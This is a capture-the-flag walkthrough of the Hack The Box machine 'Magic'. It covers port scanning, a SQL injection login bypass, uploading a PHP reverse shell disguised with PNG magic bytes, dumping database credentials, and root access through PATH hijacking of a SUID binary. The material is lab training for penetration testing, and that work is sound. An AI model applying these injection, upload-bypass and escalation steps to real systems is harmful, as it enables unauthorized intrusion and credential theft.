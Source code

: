 ## Magic

Difficulty: Medium

### User Flag 

#### Foothold

```
rustscan -a 10.10.10.185 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/17305671-404e-489b-8e35-c2ea062c2272)

<br>

The site seems to upload images, but there is a login procedure before.

![website](https://github.com/b1d0ws/OSCP/assets/58514930/14680e19-d535-4eaa-87b0-c881659acb13)

![login](https://github.com/b1d0ws/OSCP/assets/58514930/e8d28bb5-8763-43bf-8e2c-b62e61890b04)

<br>

You can bypass in two different ways: changing 302 Found to 200 OK accessing direct upload.php or use " ' OR 1=1 -- - " in password field to bypass the login form.

![sqlInjection](https://github.com/b1d0ws/OSCP/assets/58514930/45e4ab2f-b96a-4485-8619-157e4dcf6055)

![uploadPHP](https://github.com/b1d0ws/OSCP/assets/58514930/db8fd7e3-33e5-4a4e-90a3-f62cf7a5bf02)

<br>

Upload functions appears to have two methods of litiming the upload. First the file need to have JPG, JPEG & PNG extension and this can be bypass using double extension.

The other method checks the magic bytes of the files, so we can just upload a reverse.php.png with PNG magic bytes inside it.

```
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r >> reverse.php.png
cat php-reverse-shell.php >> reverse.php.png
```

![creatingPayload](https://github.com/b1d0ws/OSCP/assets/58514930/dca0ee12-82f7-4389-8487-2218d8784e5e)

![uploadedExploit](https://github.com/b1d0ws/OSCP/assets/58514930/629c469a-1ec9-4ea6-b10f-bdc5706ef2fa)

<br>

To execute this file, you discover in the main page source code that the images are located at /images/uploads.

![accessingReverse](https://github.com/b1d0ws/OSCP/assets/58514930/431574a3-2be3-4f6c-a3ca-fcccdc2d0e43)

#### User Access

We find credentials inside /var/www/Magic/db.php, but there is no mysql binary in the machine. You can dump the database portforwarding 3306 port or use mysqldump binary.

Inside Magic database there is another password that can be used to authenticate as theseus.

```
mysqldump -u theseus -p Magic
```

![dbPHP5](https://github.com/b1d0ws/OSCP/assets/58514930/a5b9de31-22d2-4129-8370-9be0822a9b72)

![mysqldump](https://github.com/b1d0ws/OSCP/assets/58514930/1dbbb53e-9b44-4682-a68a-b8c97aa77a40)

![theseusPass](https://github.com/b1d0ws/OSCP/assets/58514930/c77741f4-4797-478b-a5a8-8597446d4a47)

### Root Flag

Enumerating SUID, there is this /bin/sysinfo binary.  

Executing, we notice that he uses some common binaries in linux such as free.

```
find / -type f -perm -04000 -ls 2>/dev/null
```

![sysinfoSUID](https://github.com/b1d0ws/OSCP/assets/58514930/d3ccacd7-8ff3-4de9-938c-f334c474ff92)

![freeOutput](https://github.com/b1d0ws/OSCP/assets/58514930/1196ebb9-bc94-4b33-a37c-7d2f6b6ea267)

<br>

We can trace the system calls with strace to see the binaries being called.  

Doing this, we dsicover that free and other binaries are being called in a relative path. We can PATH Hijack!

```
strace -f sysinfo
```

![straceFree](https://github.com/b1d0ws/OSCP/assets/58514930/29b2464e-a68f-4816-bd95-77c281ba4a76)

![privEsc](https://github.com/b1d0ws/OSCP/assets/58514930/7aeeefcb-e530-4fbc-9749-8f6f19be79b5)

